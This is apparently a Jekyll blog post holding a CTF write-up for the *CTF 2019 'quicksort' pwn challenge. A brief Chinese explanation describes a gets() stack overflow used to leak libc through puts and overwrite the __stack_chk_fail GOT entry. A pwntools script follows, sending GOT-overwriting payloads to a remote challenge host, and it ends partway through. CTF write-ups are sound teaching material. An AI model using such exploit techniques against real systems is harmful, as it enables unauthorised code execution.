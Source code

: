 ```yaml
---
layout: post
title: "starctf2019--pwn WriteUp"
date: 2019-04-30
categories: jekyll update
---
```


### starctf2019--pwn WriteUp
### pwn
### quicksort 
gets危险函数明显栈溢出，s与ptr的距离是0x1c，可以通过gets函数直接改写ptr来泄露地址，利用puts泄露libc地址，然后再改写__stack_chk_fail_got直接getshell。

详细代码如下：

```
from pwn import *
local = 0

if local:
	p = process("./quicksort")
	libc = ELF("/lib/i386-linux-gnu/libc.so.6")
else:
	p = remote("34.92.96.238",10000)
	libc = ELF("libc.so.6")

elf = ELF("quicksort")
atoi_got = 0x0804A038
free_got = elf.got["free"]
print hex(free_got)
free_plt = elf.plt["free"]
puts_plt = elf.plt["puts"]
__stack_chk_fail_got = elf.got["__stack_chk_fail"]
print hex(__stack_chk_fail_got)
start = 0x080489C9

bss = 0x0804A0b0
def exp():
	p.recv()
	p.sendline(str(2))
	
	
	p.recv()
	payload = str(puts_plt)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x64) + p32(0) + p32(0) + p32(free_got)
	p.sendline(payload)
	
	p.recv()
	payload = str(start)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x64) + p32(0) + p32(0) + p32(__stack_chk_fail_got)
	p.sendline(payload)
	
	p.recv()
	payload = str(puts_plt)
	payload = payload.ljust(0x10,"\x00")
	payload += p32(0x0) + p32(0) + p32(0) + p32(free_got) + "aaaa"
	p.sendline(payload)
	
	p.recvuntil(":\n\n")
```